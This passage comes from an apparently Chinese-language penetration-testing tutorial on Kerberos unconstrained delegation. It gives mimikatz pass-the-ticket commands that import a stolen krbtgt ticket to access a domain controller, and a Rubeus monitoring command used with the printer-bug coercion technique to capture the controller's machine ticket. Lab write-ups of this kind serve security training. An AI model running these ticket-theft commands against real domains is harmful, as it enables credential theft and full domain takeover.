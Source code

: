 然后我们用 mimikatz 执行如下命令将这个票据导入内存中。

```
#导入票据
kerberos::ptt [0;58cdc]-2-0-60a10000-test@krbtgt-XIE.COM.kirbi

#查看票据
kerberos::list
```

如图所示，使用 mimikatz 将票据导入内存中，然后访问域控，可以看到导入票据后成功访问域控。

![截图](185c57adf0a529a784a9a8f543ad9ab4.png)

#### （2）结合打印机漏洞攻击

上面的攻击手段，还需要域管理员主动连接配置了非约束性委派的主机，才能从该主机上抓到域管理员的 TGT 认购权证，实战中意义不大。于是，我们可以**利用打印机服务漏洞来强制域控连接配置了非约束性委派的主机，也能从该主机上抓到域控机器用户的 TGT 认购权证，且不需要管理员交互**！

在 win7 上以管理员权限用 `Rubeus` 执行如下命令每隔一秒监听一次来自 AD01 主机的票据。

```
Rubeus.exe monitor /interval:1 /filteruser:AD01$
```

如图所示，使用 Rubeus 监听 AD01 主机的票据。

![截图](cd188a51de5d23f908f2fe7367464dc3.png)
